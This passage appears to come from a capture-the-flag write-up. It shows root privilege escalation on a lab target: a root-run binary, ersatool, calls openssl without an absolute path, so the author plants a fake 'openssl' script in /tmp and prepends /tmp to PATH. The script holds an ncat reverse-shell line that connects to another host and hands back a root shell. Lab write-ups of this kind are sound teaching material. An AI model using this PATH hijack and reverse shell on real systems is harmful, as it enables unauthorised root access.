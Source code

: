 During its execution, a few new entries showed in pspy output:

![openssl](images/openssl-detected.png) 

Openssl can be seen there. What is important, is that it isn't using absolute path of `openssl` and is running with `UID=0` which is a user id of root. PATH injection attack may be performed.

We switch to a path where we have `write` rights (e.g. `/tmp/`). We create `openssl` file, paste simple reverse shell code there and export new `PATH` environmental variable:
```console
$ cd /tmp
$ echo '#!/bin/bash' > openssl
$ echo '/tmp/ncat 192.168.254.2 31337 -e /bin/bash' >> openssl
$ chmod +x openssl
$ export PATH=/tmp:$PATH
```
Then, we set up listener on **target 1** on port 31337 and we executed `/usr/bin/ersatool` on **target 2** with `create` command:

![ersatool hang](images/ersatool-hang.png) 

Connection was established to our ncat listener on **target 1**:
 
![init root](images/initial-root.png) 

This could be seen in pspy output on **target 1**:

![pspy root](images/pspy-root-init.png) 

We can read our flag:
